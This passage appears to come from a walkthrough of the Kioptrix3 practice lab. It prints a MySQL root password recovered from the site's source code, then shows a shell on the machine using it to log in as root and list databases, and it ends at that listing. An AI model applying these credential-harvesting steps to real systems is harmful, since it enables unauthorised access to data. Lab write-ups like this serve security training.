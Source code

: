 	![](images/Pasted%20image%2020220123193414.png)
	- root:fuckeyou
6. Access mysql to obtain more creds
	```
	www-data@Kioptrix3:/home/www/kioptrix3.com$ mysql -u lancore_gallarif -p
	Enter password: 
	ERROR 1045 (28000): Access denied for user 'lancore_gallarif'@'localhost' (using password: YES)
	www-data@Kioptrix3:/home/www/kioptrix3.com$ mysql -u root -p
	Enter password: 
	Welcome to the MySQL monitor.  Commands end with ; or \g.
	Your MySQL connection id is 15
	Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

	Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

	mysql> show databases;
	+--------------------+
	| Database           |
	+--------------------+
	| information_schema | 
	| gallery            | 
	| mysql              | 
	+--------------------+
	3 rows in set (0.00 sec)
